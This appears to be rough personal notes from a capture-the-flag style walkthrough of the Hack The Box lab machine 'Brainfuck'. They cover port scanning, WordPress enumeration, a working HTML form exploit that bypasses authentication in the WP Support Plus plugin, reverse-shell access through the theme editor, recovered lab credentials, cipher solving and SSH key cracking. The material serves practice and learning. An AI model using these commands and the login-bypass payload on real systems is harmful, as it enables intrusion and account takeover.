

PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
110/tcp open  pop3
143/tcp open  imap
443/tcp open  https


gobuster dir --url https://10.129.228.97 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k 

ssl information is required as usially htb deals with port 80


wpscan on wordpress enumeration

wpscan --url https://brainfuck.htb --disable-tls-checks

wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u


[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```
searchsploit wp support plus
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
WordPress Plugin WP Support Plus Responsiv | php/webapps/34589.txt
WordPress Plugin WP Support Plus Responsiv | php/webapps/40939.txt
WordPress Plugin WP Support Plus Responsiv | php/webapps/41006.txt
```

searchsploit -x 41006.txt

```
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>

```

we become admin using the exploit


in wordpress file reverse connect can be got using appearancesthemes and then cahnge template to whatever


we  got password
orestis:kHGuERB29DNiNE


websehll did not work so trying to configure a thunderbird client

able to configure


```
Hi there, your credentials for our "secret" forum are below 😄

username: orestis
password: kIEnnfEKJ#9UmdO

Regards
```

using this and logging in I get


its using a one time pad

https://rumkin.com/tools/cipher/ for ciphers

its a keyed vigenere with key from th emessage itself



wegot a key to enter from

bu not the passphrase we need to  crack the key for the passphrase

3poulakia!

this is the ssh password so we got shell


2c11cfbc5b959f73ac15a3310bd097c9

apparently not much was revealed in iipsec video after that


### lesson learnt

1. check the  ecertificate if ssl is there
2. ciphers can beone time pad. https://rumkin.com/tools/cipher/ for cipher reated help